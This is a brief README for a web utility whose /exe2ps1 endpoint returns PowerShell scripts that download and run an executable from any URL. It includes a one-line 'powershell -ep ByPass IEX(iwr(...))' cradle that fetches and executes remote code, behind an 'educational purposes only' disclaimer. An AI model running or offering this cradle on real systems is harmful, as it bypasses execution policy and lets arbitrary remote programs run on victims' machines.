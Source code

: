 This is a server which runs utils for various project

> **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

# Endpoints

## [/exe2ps1](https://vercelutilsserver.totallysafe.ch/exe2ps1)

returns a powershell script, which downloads and runs an executable from `param:url` with all `param:arg` passed


example: [`/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe`](https://vercelutilsserver.totallysafe.ch/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('vercelutilsserver.totallysafe.ch/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```